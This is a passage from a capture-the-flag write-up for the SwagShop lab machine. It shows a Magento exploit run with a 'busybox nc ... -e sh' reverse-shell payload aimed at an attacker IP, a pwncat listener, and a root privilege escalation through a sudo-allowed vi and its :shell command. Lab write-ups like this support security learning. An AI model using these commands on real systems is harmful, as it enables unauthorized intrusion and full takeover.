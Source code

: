     python3 -m pwncat -lp 7777

<span class="underline">Unstable shell</span>

    python2 php/webapps/37811.py http://swagshop.htb/index.php/admin "busybox nc 10.10.14.3 6666 -e sh"


<a id="orgaba0d43"></a>

# PE

inside the car using `sudo -l` we realize that something is wrong.

    (remote) www-data@swagshop:/home/haris$ sudo -l 
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

We can run <span class="underline">vi,</span> as the `root` user, in the `/var/www/html/*` folder and for those who know `vi` or `vim` know that is a problem because of the existence of the `:sh` `:shell` commands so run:

    (remote) www-data@swagshop:/home/haris$ sudo vi /var/www/html/api.php 

Type ESC `:shell` and the game is done!

    root@swagshop:/home/haris# id
    uid=0(root) gid=0(root) groups=0(root)

